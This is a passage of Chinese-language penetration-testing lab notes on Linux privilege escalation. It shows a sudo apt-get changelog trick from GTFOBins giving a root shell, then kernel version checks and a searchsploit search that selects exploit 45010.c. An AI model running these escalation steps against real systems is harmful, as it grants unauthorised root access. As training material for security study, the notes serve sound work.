 > - /usr/sbin/cupsd (654)
> - /usr/lib/cups/notifier/dbus (658) /usr/sbin/cupsd
>> 透過 AppArmor 提權，不可行

#### 4. 改用 apt-get 進行特權提升
根據 [GTFObins](https://gtfobins.github.io/gtfobins/apt-get/) 建議：
```
joe@debian-privesc:~$ sudo apt-get changelog apt
...
Fetched 459 kB in 0s (39.7 MB/s)
# id
uid=0(root) gid=0(root) groups=0(root)
```
### Exploiting Kernel Vulnerabilities
如何利用 Linux Kernel 漏洞來提升權限\
#### 1. 收集系統資訊
檢查 `/etc/issue` 取得目標資訊
```
joe@ubuntu-privesc:~$ cat /etc/issue
Ubuntu 16.04.4 LTS \n \l
```
檢查核心版本和系統架構
```
joe@ubuntu-privesc:~$ uname -r 
4.4.0-116-generic

joe@ubuntu-privesc:~$ arch 
x86_64
```
Ubuntu 16.04.3 LTS (kernel 4.4.0-116-generic)， x86 架構

#### 2. 尋找可用的 Kernel 漏洞
使用 searchsploit 來尋找與目標版本相符的核心漏洞，以 "linux kernel Ubuntu 16 Local Privilege Escalation" 當作 key word，且過濾掉不符的版本
```
┌──(chw㉿CHW)-[~]
└─$ searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
Linux Kernel (Debian 7.7/8.5/9.0 / Ubuntu 14.04.2/16.04.2/17.04 / Fed | linux_x86-64/local/42275.c
Linux Kernel (Debian 9/10 / Ubuntu 14.04.5/16.04.2/17.04 / Fedora 23/ | linux_x86/local/42276.c
Linux Kernel (Ubuntu / Fedora / RedHat) - 'Overlayfs' Local Privilege | linux/local/40688.rb
Linux Kernel (Ubuntu 17.04) - 'XFRM' Local Privilege Escalation       | linux/local/44049.md
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04) - 'Full-Nelson.c' Local P | linux/local/15704.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overla | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overla | linux/local/37293.txt
Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.04/13.10 x64) - 'CONFIG_X86_X32= | linux_x86-64/local/31347.c
Linux Kernel 3.x (Ubuntu 14.04 / Mint 17.3 / Fedora 22) - Double-free | linux/local/41999.txt
Linux Kernel 4.3.3 (Ubuntu 14.04/15.10) - 'overlayfs' Local Privilege | linux/local/39166.c
Linux Kernel 4.4 (Ubuntu 16.04) - 'BPF' Local Privilege Escalation (M | linux/local/40759.rb
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter 'target_offset'  | linux_x86-64/local/40049.c
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOA | linux/local/39772.txt
Linux Kernel 4.6.2 (Ubuntu 16.04.1) - 'IP6T_SO_SET_REPLACE' Local Pri | linux/local/40489.txt
Linux Kernel < 2.6.34 (Ubuntu 10.10 x86) - 'CAP_SYS_ADMIN' Local Priv | linux_x86/local/15916.c
Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32) - 'CAN BCM' Local P | linux/local/14814.c
Linux Kernel < 2.6.36.2 (Ubuntu 10.04) - 'Half-Nelson.c' Econet Privi | linux/local/17787.c
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Es | linux/local/45010.c
```
> 嘗試最後一個漏洞（linux/local/45010.c），版本較新並且與我們的核心版本匹配，因為它針對的是 4.13.9 以下的任何版本。
